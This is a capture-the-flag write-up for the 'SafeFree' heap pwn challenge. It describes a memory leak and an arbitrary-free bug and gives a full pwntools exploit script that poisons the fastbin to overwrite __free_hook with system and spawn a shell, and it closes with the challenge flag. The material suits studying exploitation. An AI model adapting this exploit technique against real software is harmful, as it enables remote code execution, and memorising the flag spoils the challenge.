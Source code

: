# SafeFree

Note : When reversing the binary, i thought some restriction were there (that weren't actually there) which lead me<br>
to use a bit more complicated solution, please refere to
[Shellmates's original write-up](https://github.com/Shellmates/BSides-Algiers-2k21-Finals-chals/tree/main/pwn/safefree/solution) for the simpler intended solution 

# Description
![](./safefree.png)

# The confusion
I thought the allocate function was overwriting the first 16 bytes (forward and backward pointers) with null bytes after allocating heap memory to prevent us from leaking heap addresses, while in fact only the second 8 bytes (only the backward pointer) were overwritten with null bytes.
so basically the first part about leaking the heap address could've been avoided.

# Vulnerabilities
* The binary is using the read function which doesn't append a null-byte at the end of the input string which helps us leak memory addresses.<br>
* the safefree function attempts to free the pointer reference instead of the pointer itself giving us control over an arbitrary free,
which leads us to arbitrary write).<br>

# TL;DR

1 _ consolidate 2 fastchunks and leak heap address.<br>
2 _ consolidate 2 large chunks and leak main_arena address to calculate libc base address.<br>
3 _ double free a fastchunk to poinson the fastbin pointer to point to __free_hook.<br>
4 _ overwrite __free_hook with system address.<br>
5 _ free(bin_sh_pointer) //system("/bin/sh");<br>

# Solution

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./safefree_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['st']

def conn():
    if args.LOCAL:
        r = process(exe.path)
    else:
        r = remote("pwn.ctf.shellmates.club", 1502)

    return r

def allocate(io, size, data):
    io.sendlineafter(b"Choice", b"1")
    io.sendlineafter(b"Size", str(size))
    io.sendlineafter(b"Data", data)

def free(io, index):
    io.sendlineafter(b"Choice", b"2")
    io.sendlineafter(b"Index", str(index))

def safefree(io, index):
    io.sendlineafter(b"Choice", b"3")
    io.sendlineafter(b"Index", str(index))

def view(io, index):
    io.sendlineafter(b"Choice", b"4")
    io.sendlineafter(b"Index", str(index))

def leak(io):
    io.recvuntil(b"Data")
    io.recvline()
    return(u64(io.recvline(keepends=False).ljust(8, b'\0')))

def main():
    r = conn()

    log.info("Leaking heap address")
    
    #filling the tcachebin for size 0x10 and adding 2 fastchunks of the same size
    for i in range(9):
        allocate(r, 0x10, '')
    for i in range(9):
        free(r, i)
    
    #forcing fastbin consolidation by allocating a large chunk (in the consolidated space from the 2 fastchunks + top chunk)
    allocate(r, 0x410, 'a'*0x1f)

    #leaking fastbin pointer (from previous second fastbins)
    view(r, 0)
    fastbin = leak(r)
    log.info(f"fastbin at: {hex(fastbin)}")

    log.info("Leaking libc address")

    #allocating 2 more large chunks (the third chunk is to prevent consolidation with top chunk, it's size does't matter)
    allocate(r, 0x410, '')
    allocate(r, 0x410, '')

    #consolidation of the first and second large chunks
    free(r, 1)
    free(r, 0)

    #allocating a large chunk of a bigger size (in the consolidated space from the first and second large chunks)
    allocate(r, 0x430, 'a'*0x41f)
    view(r, 0)

    #leaking main_arena pointer (from previous second large chunk)
    libc.address = leak(r) - (libc.symbols['main_arena']+0x60)
    log.info(f"libc base address at: {hex(libc.address)}")

    #freeing all indexes just for simplifiying the exploit
    free(r, 2)
    free(r, 0)
    
    #filling the tcachebin for size 0x10 plus 2 fastchunks of the same size
    for i in range(9):
        allocate(r, 0x10, '')
    for i in range(9):
        free(r, i)

    #allocating a chunk of a different size (to not mess with tcache)
    allocate(r, 0x20, p64(fastbin+0x10))

    #double freeing the first fastchunk
    safefree(r, 0)

    #allocating 7 chunks to empty tcachebin (and using of them as a pointer argument to '/bin/sh' for system later)
    for i in range(7):
        allocate(r, 0x10, '/bin/sh')

    #poisoning the forward pointer of the double-freed fastchunk to point to __free_hook
    allocate(r, 0x10, p64(libc.symbols['__free_hook']))
    
    #allocating the 2 fastchunks (now __free_hook is at the head of the fastbin of size 0x10)
    for i in range(2):
        allocate(r, 0x10, '')
    
    #allocating a chunk overlaping with __free_hook and overwriting it with system address
    allocate(r, 0x10, p64(libc.symbols['system']))

    #system("/bin/sh");
    free(r, 1)

    r.interactive()

if __name__ == "__main__":
    main()
    #
```
# Flag
`shellmates{M4AAYb3_juSt_STIck_t0_tHE_OLD_WaYS}`

